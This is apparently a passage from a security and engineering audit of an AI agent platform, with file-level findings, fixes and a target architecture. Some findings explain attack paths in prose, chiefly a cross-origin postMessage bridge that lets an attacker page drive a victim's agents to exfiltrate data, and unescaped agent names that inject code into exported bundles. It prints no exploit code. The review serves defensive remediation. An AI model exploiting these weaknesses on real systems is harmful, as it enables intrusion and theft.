- [ai-21] `src/lib/orchestrator.ts:204` — the system prompt resolves connection names and skills live and is never stored, so it is not reproducible from the versioned spec. Fix: snapshot the rendered prompt or its hash, the tool-schema hash and the model id on the run row.
- [ai-24] `src/lib/orchestrator.ts:222` — runs cannot be cancelled, and no `AbortSignal` is passed to model or tool calls. Fix: add a `cancel_requested` flag checked on each iteration, AbortControllers, and a per-run deadline.
- [ai-16] `src/lib/orchestrator.ts:234` — a missing or non-numeric `maxSteps` makes the loop bound `NaN`, which disables it. Fix: validate the spec with zod, count tool calls, add a wall-clock deadline and a stale-lease reaper.
- [ai-14] `src/lib/orchestrator.ts:240` — there is no prompt caching, so the system prompt and tool schemas are re-billed at full price on every iteration. Fix: add `cache_control: {type:'ephemeral'}` on the system block, the last tool and the latest tool_result.
- [ai-10] `src/lib/orchestrator.ts:264` — DLP masks only the first input and the final output. Tool results, where the PII actually comes from, reach the model unmasked, and the unmasked deliverable is already stored in `run_steps`. Fix: define the DLP boundaries explicitly and apply one function at each of them, or drop the claim.
- [ai-5] `src/lib/orchestrator.ts:374` — context grows without bound across iterations and resumes. Fix: count tokens, evict or summarise old tool_results, cap tool_result bytes per turn, and use context editing or compaction.
- [ai-20] `src/lib/orchestrator.ts:377` — 429, 529 and timeout errors fail the run permanently. Fix: catch the typed SDK errors, checkpoint before each model call, and resume from a worker with exponential backoff and jitter.
- [ai-18] `src/lib/pricing.ts:35` — model ids are scattered and some are retired, the per-workspace model override is not validated, and unknown models are priced incorrectly. Fix: create one model registry validated against `models.list()`, refuse to run models that have no rate, and keep rates versioned.
- [ai-9] `src/lib/tools.ts:872` — `dryRun` is not passed through `invoke_agent`, so a rehearsal spawns a child agent that executes for real. Fix: carry `dryRun` and the budget through `ToolContext`, and gate `invoke_agent` at the highest risk level among the child's tools.

**Low.** The Anthropic SDK is pinned at 0.32.1 (`package.json:17`), so none of the current features are available: structured outputs, adaptive thinking, compaction, context editing and typed responses [ai-19]. Upgrade it and type messages as `Anthropic.MessageParam[]`. `src/app/api/compile/route.ts:23` returns provider error text verbatim to the browser [ai-28]. A `maxSteps` stored as a string turns the loop bound into string concatenation (`"12" + 4 = "124"`) at `src/lib/orchestrator.ts:234`; use `z.coerce.number().int().min(1).max(40)` [gap-agentspec-schema-evolution-19]. The rate card at `src/lib/pricing.ts:17` is a code constant with no version stamped on runs and no markup dimension. Move it to a `price_book` table and stamp `rate_card_version` on each usage event [gap-public-api-contract-and-commercial-controls-19].

### 4.7 Frontend

The frontend is a set of large client components, `Builder.tsx` and the connections page among them, built on hand-rolled `fetch`-in-`useEffect` with no shared data layer, dialog primitive or validation. The most serious problem is trust, not code style. A cross-origin `postMessage` bridge can start runs as the logged-in user. Several screens also report success or health that the server never confirmed: connection health, OAuth status, scheduled publishing and bridge run results. Accessibility, error states and i18n have not been addressed.

**Critical and high**

- **postMessage bridge accepts any origin and starts authenticated runs** [frontend-1] (also surface-9, storage-14) — `src/components/AppCanvasViewer.tsx:164`. `isValidBridgeMessage` (`src/lib/agent-bridge.ts:90-97`) checks only `data.source` and the type of `action`. Nothing checks `event.origin` or `event.source`. Neither `next.config` nor middleware sets `frame-ancestors`, X-Frame-Options or COOP. An attacker page can `window.open` `/apps/[id]` or frame it, then post `TRIGGER_AGENT`. The page then POSTs `/api/runs` with the victim's cookie, falling back to `availableAgents[0]` (around line 188). The embedded third-party app can do the same, since its sandbox allows scripts and popups (line 127), and so can any popup opened without `noopener` (line 405). Verified impact: attacker-chosen input drives the victim's agents and tools, causing LLM spend and exfiltration through `fetch_url`. Replies go out with targetOrigin `"*"` (lines 180, 227), but they carry only a fabricated id and fixed text, because `/api/runs` returns `{runId}` (`runs/route.ts:71`). Approval gates and `budgetCheck` are the only brakes. **Fix:** check `event.origin` against the registered app origin, and require `event.source === primaryIframeRef.current?.contentWindow`. Post replies with an explicit targetOrigin. Add CSRF protection (`Sec-Fetch-Site` or a double-submit token) on every state-changing route. Send `frame-ancestors 'self'` and COOP. Require an in-UI confirmation before a run started from the bridge, and use `noopener` on `window.open`.
- **Fake connection health, latency and OAuth status** [frontend-14] — `src/app/(app)/connections/page.tsx:761`. The badge says "Healthy" whenever a connection row exists, including when there is no heartbeat or the status is degraded. The client defaults latency to 24ms (line 419). The OAuth route seeds `latencyMs` with `Math.random()` and issues random tokens without ever redirecting to the provider, while the modal advertises "1-Click OAuth 2.0" (line 1117). Operators will trust connections that were never authenticated and will miss real outages. The real heartbeat route (`connections/[id]/heartbeat/route.ts:54`) does measure latency. **Fix:** show only server-verified state (unknown, degraded or unreachable, with the last ping time) and remove the client-side defaults. Implement the authorization-code flow with PKCE, a callback route and a refresh job, or remove the OAuth path and its copy.
- **Canvas bridge reports "completed" without checking the response** [frontend-5] — `src/components/AppCanvasViewer.tsx:214`. `res.ok` is never checked, and `runResult.id` and `runResult.output` are always undefined. Every bridge call therefore reports a synthetic `run_<timestamp>` with status "completed", even on 402, 404 or 409. Lines 303-308 do the same for assistant replies ("Verified components are responsive"). **Fix:** check `res.ok` and use `runId`. Subscribe to run status over SSE or polling, forward the real terminal state and deliverable, and emit `failed` with the server's message on error.
- **"Schedule publish" does nothing but reports success** [frontend-3] — `src/components/Builder.tsx:213`. The handler PATCHes the draft and then displays "Version vN will automatically go live on …". No schedule-publish endpoint exists, and there is no `publish_at` column in `db/schema.sql`. A governed release that an admin scheduled silently never happens. **Fix:** remove the menu item, or add a `scheduled_publishes` table and endpoint executed by the scheduler worker, with the UI reading the pending schedule from the server. Never show a success toast for an action the server did not persist.

**Medium**

- [frontend-11] `src/app/(app)/agents/[id]/page.tsx:13` — there are no `error.tsx`, `not-found.tsx` or `loading.tsx` files, so server pages block and crash unstyled. Fix: add segment-level boundaries, Suspense streaming and `Promise.all`.
- [frontend-23] `src/app/(app)/agents/page.tsx:14` — pagination happens on the client over an unbounded, over-fetched agents payload. Fix: paginate on the server using URL searchParams, keyset pagination and indexes on `(org_id, updated_at)`.
- [frontend-13] `src/app/(app)/connections/page.tsx:339` — the data layer is hand-rolled with no cache, dedupe, retry, cancellation or types. Fix: TanStack Query with zod-typed route contracts.
- [frontend-21] `src/app/(app)/connections/page.tsx:367` — connections keyed by kind hide duplicates, and a failed disconnect is reported as success. Fix: render one row per connection and check `res.ok` on DELETE.
- [frontend-16] `src/app/(app)/connections/page.tsx:826` — clickable divs and unlabelled icon buttons cannot be operated by keyboard. Fix: use `<button>` with `aria-label` and turn on `eslint-plugin-jsx-a11y`.
- [frontend-17] `src/app/(app)/connections/page.tsx:1167` — form inputs have no programmatic labels. Fix: `useId` with `htmlFor`, `aria-describedby`, `aria-invalid`, and react-hook-form with zod.
- [gap-public-api-contract-and-commercial-controls-11] `src/app/api/webhooks/[id]/route.ts:35` — inbound webhooks are marked "processed" but never trigger anything, although the UI and TDD say they do. Fix: label them "received", or verify, dedupe, enqueue and match them in a worker.
- [frontend-28] `src/components/AppCanvasViewer.tsx:405` — `window.open` without `noopener` allows tabnabbing and bridge injection. Fix: pass `noopener,noreferrer` and add a shared ExternalLink component.
- [frontend-8] `src/components/Builder.tsx:136` — autosave races with explicit saves and causes lost updates. Fix: a revision column with If-Match and 409, aborting in-flight autosaves, and a `beforeunload` guard.
- [frontend-9] `src/components/Builder.tsx:179` — save, publish and run have no error handling, and publish can ship a stale draft. Fix: a shared mutation helper, and a single atomic publish endpoint that takes the spec and revision.
- [frontend-22] `src/components/Builder.tsx:1272` — autosave floods the audit trail and schedule sync, and the spec is stored unvalidated. Fix: a separate lightweight `/draft` endpoint and a shared zod schema.
- [frontend-15] `src/components/RunAgentModal.tsx:127` — modals have no dialog semantics, focus trap or focus restore. Fix: one Dialog primitive, either Radix or native `<dialog>`.
- [frontend-10] `src/components/RunView.tsx:42` — polling is fixed at 2s with no backoff, stops on `awaiting_approval`, and there is no push channel. Fix: SSE backed by LISTEN/NOTIFY or Redis pub/sub.
- [frontend-6] `src/components/RunView.tsx:50` — the approval decision ignores HTTP errors. Fix: a typed `apiFetch` that throws on `!res.ok`, plus `useMutation` and an idempotent approval endpoint.
- [frontend-27] `src/components/RunView.tsx:147` — all pending approvals share one comment state, so the wrong comment gets recorded. Fix: key the state by approval id.
- [frontend-7] `src/components/RunView.tsx:164` — a field validation error blanks the whole run page. Fix: separate field-level state from page errors.
- [gap-tenant-lifecycle-offboarding-8] `src/lib/auth.ts:81` — a user whose last membership is removed is permanently locked out. Fix: separate authentication from tenancy and add a "no workspace" screen with pending invites, a create-workspace option and account deletion.

**Low.** Structure and performance:
- SQL is duplicated between RSC pages and API routes, with no repository layer (`src/app/(app)/agents/[id]/page.tsx:21`) [frontend-34].
- The layout re-queries badge counts on every navigation (`src/app/(app)/layout.tsx:19`) [frontend-33].
- There is no code splitting (`src/components/Builder.tsx:8`) [frontend-25].
- Components mix concerns, and the sandbox pages are copy-pasted (`src/components/Builder.tsx:33`) [frontend-24].
- Editable lists use index keys (`src/components/Builder.tsx:1062`) [frontend-31].
- There are hydration hazards: `localStorage` is read in a `useState` initializer, and server components call bare `toLocale*` (`src/components/AppCanvasViewer.tsx:78`) [frontend-20].

UX and accessibility:
- Destructive actions use native `confirm()` and `alert()` (`src/app/(app)/connections/page.tsx:538`) [frontend-29].
- Secret fields have no `autoComplete` control (`:1196`) [frontend-37].
- Small text has low contrast, and row actions appear only on hover (`src/app/globals.css:3089`) [frontend-19].
- Login has no `<form>`, no error handling and no autocomplete hints (`src/app/login/page.tsx:26`) [frontend-35].
- Emoji are used as functional icons (`src/components/Builder.tsx:455`) [frontend-18].
- Counts and status text in the Builder header are misleading (`:86`) [frontend-32].
- Nothing is ready for i18n (`:1243`) [frontend-30].
- Styling is split between 5.4k lines of global CSS, 1,215 inline styles and two palettes (`src/app/(app)/sandbox/page.tsx:707`) [frontend-26].
- Vendor and demo defaults ship to every tenant (`src/app/(app)/connections/page.tsx:282`) [frontend-36].

Product surface:
- Approval and failure notifications have no deep link, run id or workspace name, although the TDD promises links (`src/lib/orchestrator.ts:366`) [gap-approval-governance-and-notification-delivery-13].
- Recipient routing conflates triggers: a failed "run now" on a schedule broadcasts to all approvers, and approval emails put every approver in one To: header (`src/lib/orchestrator.ts:490`) [gap-approval-governance-and-notification-delivery-20].
- `trigger.type 'event'` can be published but nothing ever fires it (`src/lib/types.ts:102`) [gap-agentspec-schema-evolution-20].

Most of these share the same fixes: a component library with Radix primitives and lucide icons, TanStack Query, next-intl, `next/dynamic`, and axe-core checks in CI.

### 4.8 Engineering practice & operability

There is no safety net between a keystroke and production. The repo has no CI, tests, lint config, structured logging, metrics or error tracking. The history is four commits, and 50 files are uncommitted on `master`, including all the v1, sandbox, apps and webhook routes. The runtime cannot shut down gracefully, the lockfile carries a critical Next.js advisory, and the exporter generates code that can be injected into. Underneath these sit systemic gaps: no runtime validation, no route wrapper, pervasive `any`, and duplicated parsers and defaults. They make each fix in 4.6 and 4.7 harder to land safely.

**Critical and high**

- **No graceful shutdown during 5-minute runs** [ops-4] (also runtime-24) — `Dockerfile:43`. `CMD ["npm", "run", "start"]` uses Next's default SIGTERM handler, which closes the server and waits for in-flight requests. The container runtime kills the process first: Docker after 10s, Kubernetes after 30s. SIGKILL then lands mid-tool-call, so an email can be sent without its step being recorded, and the run stays `running`. Nothing in `src/` registers `process.on('SIGTERM')`, and nothing calls `pool.end()`. Only `scripts/scheduler.mjs:41` handles signals. **Fix:** run `node` under `tini` (or `--init`) with `NEXT_MANUAL_SIG_HANDLE=true`. The shutdown hook should:
  1. Flip readiness to 503.
  2. Stop claiming new work.
  3. Let the current tool call persist its step.
  4. Release the lease (`locked_at = null`).
  5. Call `pool.end()`.

  Set `terminationGracePeriodSeconds` to match. Once runs move to a worker tier, this hook belongs in the worker.
- **No CI, tests, lint, formatting, hooks, CODEOWNERS or branch protection** [ops-10] (also frontend-12, quality-7) — `package.json:5`. A `typecheck` script exists, but nothing runs it. There is no `.github/`, ESLint, Prettier, Vitest or Playwright config, Husky or Dependabot. Type errors, broken lease SQL, tenant-isolation slips and new CVEs all ship unchecked. The README's "Verified" section describes manual checks that cannot be re-run. The deployed image cannot be traced to a reviewed revision. **Fix:** set up GitHub Actions to run:
  - `npm ci` and `tsc --noEmit`
  - ESLint (`next/core-web-vitals` and `@typescript-eslint`) and a Prettier check
  - Vitest, against a Postgres service container for the lease SQL
  - Playwright smoke tests
  - `npm audit --audit-level=high`
  - a Docker build with a Trivy scan

  Make these required checks under branch protection. Add husky with lint-staged, CODEOWNERS and a CHANGELOG, and land the pending work as reviewed PRs.
- **Dependencies with known vulnerabilities** [ops-9] — `package.json:24`. `npm audit` reports 1 critical and 3 high. The Next 14.2.35 critical advisory (RCE through the image optimizer) is present, but exposure is narrow because `next/image` is unused and `next.config.mjs` sets no `remotePatterns`. Other Next advisories apply directly to this App Router app, including the RSC deserialization and Server Actions DoS. nodemailer 6 has SMTP/CRLF injection and can be reached from the tenant-driven `send_email` tool (`src/lib/tools.ts:319-325`) and from `notify.ts:83`. `xlsx` 0.18.5 has no fix, but it is never imported. **Fix:** upgrade Next to a supported major and nodemailer to the current major, remove `xlsx`, and bump the Anthropic SDK. Set `images.unoptimized: true`. Add `npm audit` and OSV or Trivy scanning to CI, and enable Renovate or Dependabot.
- **Agent name interpolated unescaped into generated source** [quality-2] — `src/lib/agent-exporter.ts:487`. `spec.name` and `spec.domain` are pasted raw into string literals in `runner.mjs` (lines 140, 414, 487-489, 500, 546, 557, 590), `runner.py` (777, 902-903, 911) and `main.py` (935, 956, 965). They also reach shell contexts in the generated `deploy.sh` (1027, 1050, 1072, 1084, 1107, 1132). A name like `Acme "Ledger" Agent` breaks the bundle (verified with `node --check`). A crafted name is code that runs when a colleague executes the bundle. The source of the name can be a workspace member, prompt injection, or import/promote. The attack stays within one workspace, not across tenants. `slugify()` covers only the uses as resource identifiers. **Fix:** never interpolate values into code text. Emit them with `JSON.stringify` and read `SPEC.name` at runtime. Shell-quote any value that reaches `deploy.sh`. Add a property test that generates bundles from specs containing quotes, backticks, newlines and `${}`, and syntax-checks every output file.

**Medium**

- [ops-16] `Dockerfile:10` — the runtime image ships devDependencies, leaves out `public/` and `src/`, and cannot run the scripts the README describes. Fix: `output: 'standalone'` or `npm ci --omit=dev`, and base images pinned by digest.
- [ops-12] `package.json:16` — there are no metrics, traces or error tracking. Fix: OpenTelemetry via `instrumentation.ts` with request → run → model → tool spans, prom-client metrics, and Sentry.
- [quality-8] `scripts/test-export-import-promote.mjs:13` — the only test is a live script with a hardcoded user id, no real assertions and no cleanup. Fix: Vitest unit tests for pure modules, route tests on testcontainers, and golden-file tests for the exporter.
- [quality-10] `src/app/(app)/sandbox/google-adk/page.tsx:1` — the four sandbox pages are near-identical client components of 900 to 1,170 lines. Fix: one `<FrameworkSandbox>` driven by a descriptor.
- [gap-agentspec-schema-evolution-7] `src/app/api/agents/[id]/retire/route.ts:64` — there is no rollback to an earlier published version. Fix: add `POST .../versions/:v/rollback`, which republishes vK as N+1 behind `canPublish`.
- [quality-13] `src/app/api/agents/[id]/route.ts:31` — malformed JSON returns 500 instead of 400. Fix: a `parseJson(req, Schema)` helper in the route wrapper.
- [gap-agentspec-schema-evolution-17] `src/app/api/agents/[id]/schedule/route.ts:92` — seven separate modules write `agents.draft_spec`, with no validator or version stamp. Fix: one `specRepository.saveDraft()` that runs `upgradeSpec`, zod and an optimistic revision check.
- [ops-22] `src/app/api/cron/route.ts:110` — if `audit()` fails inside a catch block, it aborts the cron loop after `next_run_at` has already advanced. Fix: guard the audit call, and process each agent through the queue.
- [ops-14] `src/app/api/health/route.ts:13` — the health check mixes liveness and readiness and ignores disk and upstream dependencies. Fix: split `/health/live` from `/health/ready` (DB, `STORAGE_DIR` writable, free space), and include the git SHA.
- [gap-tenant-lifecycle-offboarding-12] `src/app/api/members/[id]/route.ts:38` — members cannot leave, and admins cannot remove members. Fix: `DELETE /api/members/me` and admin removal behind one policy module.
- [gap-tenant-lifecycle-offboarding-6] `src/app/api/members/[id]/route.ts:41` — ownership cannot be transferred. Fix: a transactional `transfer-ownership` endpoint with step-up re-authentication and audit.
- [ops-15] `src/app/api/members/route.ts:80` — 13 files read environment variables ad hoc, with silent localhost defaults. Fix: a zod-validated `src/lib/env.ts` that fails fast in production.
- [quality-16] `src/app/api/sandbox/promote/route.ts:31` — default spec and guardrail literals are declared in seven places. Fix: make `emptySpec()` and `defaultGuardrails()` the single source.
- [quality-14] `src/app/api/sandbox/promote/route.ts:78` — raw exception messages from the LLM, DB and import paths are returned to clients. Fix: stable error codes plus a `requestId`.
- [gap-public-api-contract-and-commercial-controls-13] `src/app/api/v1/agents/[id]/invoke/route.ts:114` — the OpenAPI document is hand-built per agent and disagrees with the handler, error envelopes are inconsistent, and documented v1 endpoints are missing. Fix: generate validation and OpenAPI 3.1 from one zod contract, and use RFC 9457 errors.
- [ops-11] `src/app/api/v1/agents/[id]/invoke/route.ts:276` — logs are unstructured console output, there is no correlation, the orchestrator logs nothing, and 36 errors are swallowed. Fix: pino child loggers carrying `requestId`, `orgId` and `runId`, with redaction.
- [quality-12] `src/lib/adk-sandbox.ts:408` — the sandbox falls back to fabricated tool results on any API error. Fix: return a `degraded` flag and show it, or return 502 unless simulation was requested.
- [quality-6] `src/lib/agent-exporter.ts:325` — exported runners fake success for tools they do not implement. Fix: return 422 on export for unsupported tools, and have unimplemented cases raise.
- [quality-1] `src/lib/agent-exporter.ts:915` — the Python export emits invalid syntax because of a stray closing `"""`. Fix: delete it, and add `py_compile` / `node --check` golden tests.
- [quality-4] `src/lib/auth.ts:116` — 38 of 51 route handlers have no try/catch, and `requireUser`'s 401 surfaces as a 500. Fix: one `withRoute()` wrapper that maps `HttpError` to a fixed envelope.
- [quality-11] `src/lib/db.ts:15` — `any` appears in 105 of 135 files, and `q<T = any>` leaves the DB layer untyped. Fix: require row types or adopt Kysely or Drizzle, and make `no-explicit-any` an error.
- [quality-9] `src/lib/foundry-parser.ts:140` — the four framework parsers are copy-paste variants. Fix: one `ImportedAgent` IR and a `Framework` interface.
- [quality-3] `src/lib/types.ts:83` — nothing validates request bodies or LLM output at runtime. Fix: `AgentSpecSchema` in zod with `AgentSpec = z.infer<…>`, parsed at every boundary.

**Low.** Docs drift:
- The TDD documents a programmatic approval API that does not exist (`docs/TECHNICAL_DESIGN_DOCUMENT.md:489`) [gap-approval-governance-and-notification-delivery-21].
- Other README and TDD claims are not honoured by the code (`docs/TECHNICAL_DESIGN_DOCUMENT.md:510`) [ops-26]. Generate the facts from code and add a docs-lint step.

Dependencies and runtime:
- `@types/*` sits in prod deps, and the Redis and S3 clients are hand-rolled (`package.json:18`) [quality-21]. Replace them with ioredis and `@aws-sdk/client-s3`.
- Node is loosely pinned (`>=22.9`) with no `.nvmrc` (`package.json:45`) [ops-23].
- Route `params` are typed as a Promise, the Next 15 signature, on Next 14.2 (`src/app/api/agents/[id]/export/route.ts:15`) [quality-18].
- Model ids are hard-coded in UI and parsers (`src/app/(app)/sandbox/google-adk/page.tsx:827`) [quality-19]. This should be the same registry as [ai-18].

Error surface and logging:
- Internal exception messages leak in API errors (`src/app/api/v1/agents/[id]/invoke/route.ts:279`) [ops-25].
- `console.*` calls and silent catches are the only diagnostics (`src/lib/adk-sandbox.ts:422`) [quality-20]. Ban them with `no-console` and `no-empty`.

Duplication:
- The separation-of-duties approval rule is implemented twice with no tests (`src/app/api/approvals/route.ts:44`) [gap-approval-governance-and-notification-delivery-22].
- Input-key derivation is duplicated instead of calling `inputKey()` (`src/lib/schedule.ts:112`) [quality-15].

Versioning:
- Derived schedule JSON from older parser versions is fed to the current `nextRun()` (`src/app/api/cron/route.ts:68`) [gap-agentspec-schema-evolution-21].
- Export bundles carry no format or schema version (`src/lib/agent-exporter.ts:1512`) [gap-agentspec-schema-evolution-18].
- The exporter's comments and README are stale (`src/lib/agent-exporter.ts:1588`) [quality-17].

Governance:
- There is no feature-flag layer, so unfinished subsystems are exposed to every tenant (`src/app/api/sandbox/run/route.ts:26`) [ops-28]. Use OpenFeature or an `org_features` table.
- After a resume, agent actions are audited as the approver (`src/lib/orchestrator.ts:466`) [gap-approval-governance-and-notification-delivery-18]. Add `actor_type`, `on_behalf_of` and `approval_id`.

## 5. Target architecture

The shape below is reached at the end of Phase 1 (Gate B, about week 9). Phases 2 and 3 add to it but do not change it. The stack is intentionally plain: one Postgres, one container image with two process types (web and worker), S3, KMS and SES. The primitives that already work are moved into the new design unchanged:
- the run lease CAS (`src/lib/orchestrator.ts:146`, `src/lib/orchestrator.ts:168`);
- the single-winner resume transition (`src/lib/orchestrator.ts:392`);
- the pending-only approval decision (`src/app/api/approvals/[id]/route.ts:42`);
- the SKIP LOCKED cron claim (`src/app/api/cron/route.ts:62`);
- run spec snapshots and cost-at-finish.

### Design principles

1. **The web tier validates, authorises and enqueues.** It never runs an agent loop and never calls a URL a tenant controls. Today, all six run entry points `await advance()` inside the request (`src/app/api/runs/route.ts:9`, `src/app/api/cron/route.ts:11`, `src/app/api/approvals/[id]/route.ts:9`, `src/app/api/v1/agents/[id]/invoke/route.ts:9`). `maxDuration` is only honoured on Vercel, so under `next start` these requests have no limit at all [runtime-3] [runtime-4].
2. **Postgres is the only stateful platform dependency** until measurements justify another. Queue, cron, outbox, rate buckets and the usage ledger all live in it. This replaces three pieces of per-process state:
   - the in-memory limiter (`src/lib/guardrails.ts:156`);
   - the pool fixed at `max: 10` (`src/lib/db.ts:9`);
   - the local-disk writes (`src/app/api/documents/route.ts:29`, `src/lib/tools.ts:389`).
3. **Deny by default.** Only a CI-checked allowlist of routes is public: health, auth, and cron with its secret. Every other handler goes through `withRoute`.
4. **Nothing fabricated reaches a user.** A feature is either real or hidden behind a flag.
5. **Authorisation lives in the handler, never only in middleware.** CVE-2025-29927 showed that Next.js middleware can be bypassed. So `middleware.ts` only sets headers and runs the CSRF check, and the ALB/WAF strips `x-middleware-subrequest`.

### Technology choices

| Component | Choice | Why (one line) |
|---|---|---|
| Web tier | Next.js at the latest patched supported major (15.x, React 19), `output: 'standalone'`, 2 or more Fargate tasks behind ALB + WAF | Stateless replicas. Closes the 14.2.35 advisories [ops-9]. |
| Route kernel | `withRoute({auth, permission, schema})`: requestId, zod params/body (400 on malformed JSON), `can(user, action, resource)`, `HttpError` mapped to RFC 9457 problem+json | One enforcement point instead of 51 hand-written handlers. The CI route inventory proves every handler is wrapped. |
| Browser hardening | `middleware.ts` sets CSP with a nonce, HSTS, `frame-ancestors 'none'`, nosniff, Referrer-Policy, and checks Origin/Sec-Fetch-Site on mutations. Cookie is `__Host-as_session` | Adds CSRF and clickjacking defence without putting authorisation in middleware. |
| Worker tier | Same image, `node dist/worker.js` (esbuild bundle) running pg-boss handlers: `run.execute`, `run.resume`, `run.child_join`, `cron.tick`, `run.reaper`, `notify.deliver`, `doc.ingest`, `tenant.purge`, `tenant.export` | Runs survive deploys and crashes. Lease heartbeat, SIGTERM drain via tini, per-org concurrency. |
| RunExecutor seam | `dispatch(runId, kind)` with `InlineExecutor` and `QueueExecutor`, chosen per org by `org_features.run_executor` | Strangler-fig rollout with instant rollback, because both call the same `advance()`. |
| Database | RDS Postgres 16 Multi-AZ, 35-day PITR, `force_ssl`, pg_stat_statements. Separate migration-owner and DML-only app roles. RDS Proxy only once connections pass about 60% of max | Managed backups and DR with least privilege. |
| Migrations | node-pg-migrate with plain-SQL files, run once per deploy by an ECS release task under an advisory lock | Replaces re-running `db/schema.sql`, which re-grants revoked memberships [data-1] [data-10]. |
| Object storage | S3 behind a `StorageProvider` interface. Keys follow `org/<orgId>/{uploads,artifacts,exports}/<uuid>`. SSE-KMS, Block Public Access, presigned GET | Replicas share nothing. Tenant purge becomes a prefix delete. |
| Secrets | Secrets Manager for platform secrets. Phase 0: HKDF split into `jwt` and `secrets:v1` keys, plus `key_version`. Phase 2: KMS envelope encryption with a per-org DEK | Today one fallback string both signs JWTs and encrypts tenant secrets (`src/lib/auth.ts:7`, `src/lib/crypto.ts:5`) [auth-1] [auth-8]. |
| Egress | `safeFetch` (undici with a pinned DNS lookup, ipaddr.js deny list, per-hop redirect re-check, 2 MB stream cap, timeouts) and `withCustomerPg` (read-only tx, `statement_timeout`, cursor caps). Worker security groups deny VPC CIDRs. IMDSv2 with hop limit 1. Fixed NAT IP | SSRF defence in depth without running an egress-proxy service [surface-4] [ai-4]. |
| Model gateway | `modelCall(orgId, purpose, actor)` on the current `@anthropic-ai/sdk`: `messages.stream().finalMessage()`, 120 s timeout, `stop_reason` branching, `cache_control`, typed retryable errors, reserve before the call and a `usage_events` row after | Every token is metered against a cap that concurrent runs cannot overshoot [integrations-4] [ai-6]. |
| Rate limits | rate-limiter-flexible `RateLimiterPostgres` | Shared across replicas with no Redis. |
| Email | SES from the platform domain (SPF/DKIM/DMARC) through a transactional outbox (Phase 2) | Platform notices stop going out through tenant SMTP. |
| Observability | pino, Sentry and CloudWatch alarms (Phase 1). OpenTelemetry traces and SLOs (Phase 2) | Every log line carries requestId, orgId, runId and jobId. |
| Delivery | GitHub Actions (tsc, ESLint, Prettier, Vitest + testcontainers, route inventory, npm audit, gitleaks, Trivy), then ECR, the migrate task and a blue/green ECS deploy. Terraform for all infrastructure | Reproducible and reviewable. The repo has no CI today [ops-10]. |

### Production topology

### How a run flows

1. **Admission.** `POST /api/runs`, the v1 API, `cron.tick` and approval decisions all call one function, `admitRun()`. It:
   - checks policy;
   - calls `resolveRunnableSpec` (published only, never a retired agent, and a draft only for the builder's forced dry-run rehearsal);
   - validates the spec with zod;
   - reserves spend;
   - checks per-org concurrency.

   Then **one transaction** inserts `runs(status='queued')`, writes the audit row and calls `boss.send('run.execute', {singletonKey: runId})`, and the route returns 202.
2. **Execution.** A worker claims the run with the existing CAS lease and heartbeats every LEASE/3.
   - For each model call, it writes a `usage_events` row and commits the reservation.
   - For each tool call, it first inserts `run_steps(status='started')` keyed by `unique(run_id, tool_use_id)`, then applies the effective gate `max(spec.gate, registry.minGate(risk))`.
   - On reclaim, a consequential step that started but never finished becomes `outcome_unknown` for a human to decide. It is never re-run blindly.
3. **Parking at a gate.** **One transaction** inserts every approval for the turn, each with the resolved destination snapshot and the tool schema hash. The same transaction sets `awaiting_approval` and writes the outbox rows. Today these are separate autocommit statements, and the status flip happens at the end of the turn (`src/lib/orchestrator.ts:356`).
4. **Decision.** The decision commits, enqueues `run.resume` and returns 200. The resume job rebuilds `ToolContext` through a single factory and refuses to execute if the destination has drifted since approval.
5. **Delegation (Phase 2).** `invoke_agent` enqueues a child run and the parent moves to `waiting_children`. When the child reaches a terminal state, it enqueues `run.child_join`.
6. **Recovery.** `run.reaper` re-enqueues runs whose lease expired and fails runs past the 30-minute wall-clock limit. Nothing reclaims stranded leases today [runtime-4].

### Where state lives

| Store | Contents |
|---|---|
| Postgres | runs, run_steps, approvals, usage_events, org_usage_periods, notification_outbox, rate buckets, api_idempotency. pg-boss in its own schema. |
| S3 | Uploads, artifacts, exports, and step payloads over 64 KB (Phase 3). |
| Process memory | LRU caches only: Anthropic clients keyed by connection id, and the worker-only DEK cache. |

### Tenancy over time

| Stage | Enforcement |
|---|---|
| Phase 1 (partners) | Enforced by the application: the policy module, a repository layer, a CI cross-tenant suite over two seeded orgs on every route, the route-inventory gate, invite-only signup, and DPAs. |
| Phase 3 (self-serve) | Postgres RLS on `current_setting('app.org_id')`, set with `SET LOCAL` in `withTenantTx`. The app role is NOBYPASSRLS. A named `system` role, audited on every use, serves cron, the reaper and purge. The workspace moves into the URL (`/w/[slug]`). Untrusted embeds are served from a separate `apps-usercontent` registrable domain. |

### Launch gates

| Gate | When | Who is admitted | Hard preconditions |
|---|---|---|---|
| A | Week 2 | Staging and internal demos | All criticals fenced or fixed. CI green. |
| B | About week 9 | 3-5 invite-only design partners under DPA | 0 runs execute in HTTP requests. kill -9 chaos test passes. Scoped pentest has 0 open critical or high findings. |
| C | About week 15 | Partners using the public API | API keys, Idempotency-Key and 202 + Location. |
| D | About week 22 | Self-serve and GA | RLS, email verification, MFA for privileged roles, and billing. |

**Deferred until a measured need:** Redis/BullMQ, Temporal, Smokescreen, Kubernetes, multi-region, and database-per-tenant. The exit trigger for moving the queue and rate limits off Postgres is agreed in advance: queue p95 over 2 s, DB CPU over 70% sustained, or more than about 50 jobs/s.

### Keep / refactor / replace

| Current module | Fate | What happens |
|---|---|---|
| `src/lib/orchestrator.ts` `advance()` lease CAS and resume CAS (`:168`, `:392`) | **Keep** | Moved into the worker unchanged. Both executors call it. |
| `src/lib/orchestrator.ts` loop body and `startRun` | **Refactor** | Adds write-ahead steps, the runtime gate floor, cancellation, `stop_reason` handling and model calls through the gateway. `startRun` becomes `admitRun` and enqueue. |
| `src/app/api/cron/route.ts` SKIP LOCKED claim (`:62`) | **Keep** | Reused by `cron.tick`, which only enqueues. The owner-session fallback and cross-tenant response are removed [runtime-2]. |
| `scripts/scheduler.mjs` | **Replace** | pg-boss `schedule`. Deleted after the queue cutover. |
| `src/lib/db.ts` | **Refactor** | Pool gets an error handler, timeouts, env-sized `max`, TLS and SIGTERM close. Adds `withTx`, then `withTenantTx` in Phase 3. |
| `db/schema.sql` + `scripts/setup-db.mjs` | **Replace** | node-pg-migrate. 0001 is today's schema minus the DML backfills. |
| `src/lib/apps.ts`, `src/lib/evals.ts` runtime DDL and in-memory fallbacks (`apps.ts:100`, `evals.ts:154`) | **Replace** | Migration 0002. Errors surface as 5xx. |
| `src/lib/auth.ts` | **Refactor** | Boot-validated secret, HKDF key, `session_version`, idle and absolute timeouts, then email verification and TOTP MFA. The auth vendor is not swapped. |
| `src/lib/crypto.ts` | **Refactor** | HKDF v1 in Phase 0, then a KMS per-org DEK in Phase 2, both with `key_version`. |
